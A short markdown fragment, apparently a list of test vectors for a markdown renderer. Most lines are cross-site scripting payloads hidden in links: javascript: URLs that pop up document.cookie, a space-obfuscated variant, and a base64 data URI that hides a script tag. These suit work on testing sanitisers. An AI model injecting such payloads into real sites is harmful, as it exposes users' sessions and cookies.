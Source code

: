 [a](javascript:prompt(document.cookie))
[a](j a v a s c r i p t:prompt(document.cookie))
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[a](javascript:window.onerror=alert;throw%201)
[data](data hello)


[url](https:word.txt)
![https](https://storage0.herokuapp.com/gitlab_logo1.svg)
[https](https://storage0.herokuapp.com/gitlab_logo1.svg)

